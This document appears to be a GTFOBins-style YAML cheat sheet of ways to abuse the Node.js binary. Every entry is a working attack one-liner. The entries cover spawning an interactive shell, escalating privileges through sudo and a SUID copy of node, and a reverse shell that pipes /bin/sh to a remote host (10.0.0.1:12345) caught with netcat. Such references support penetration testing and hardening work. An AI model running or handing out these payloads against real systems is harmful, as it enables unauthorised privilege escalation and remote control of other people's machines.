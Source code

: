```yaml
---
functions:
  exec-interactive:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  sudo-enabled:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  suid-enabled:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        export RHOST=10.0.0.1
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
---
```

